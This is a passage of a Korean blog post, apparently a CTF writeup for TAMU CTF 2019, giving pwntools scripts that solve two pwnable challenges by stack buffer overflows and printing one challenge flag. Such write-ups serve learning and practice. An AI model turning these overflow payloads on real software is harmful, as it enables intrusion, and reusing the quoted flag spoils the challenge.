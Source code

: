 ```yaml
---
layout: post
title: "2019 TAMU CTF Writeup"
date: 2019-3-4
ctf: TAMU CTF
published : false
---
```


혼자 참여해서 2472팀중에 348등 5061 points로 끝냈고 22문제를 풀었다.

![](https://user-images.githubusercontent.com/32904385/53815727-84b32f00-3fa5-11e9-8e3a-743d37f589a9.png)

# Pwnable

포..넙

### Pwn1

```python
from pwn import *

# p = remote('pwn.tamuctf.com',4321)
p = process('./pwn1')
e = ELF('./pwn1')
shell=0xDEA110C8
p.sendlineafter('What... is your name?','Sir Lancelot of Camelot')
p.sendlineafter('What... is your quest?','To seek the Holy Grail.')
p.recvuntil('What... is my secret?')
payload = ''
payload += 'A'*(0x3b-0x10)
payload += p32(shell)
p.sendline(payload)
p.interactive()
```

**FLAG : gigem{34sy_CC428ECD75A0D392}**

<br />

### Pwn2

```python
from pwn import *

# p = remote('pwn.tamuctf.com',4322)
p = process('./pwn2')
e = ELF('./pwn2')
flag_fun=0x000006d8
p.recvuntil('Which function would you like to call?')
payload = 'A'*30
payload += p32(flag_fun)
p.sendline(payload)
p.interactive()
```
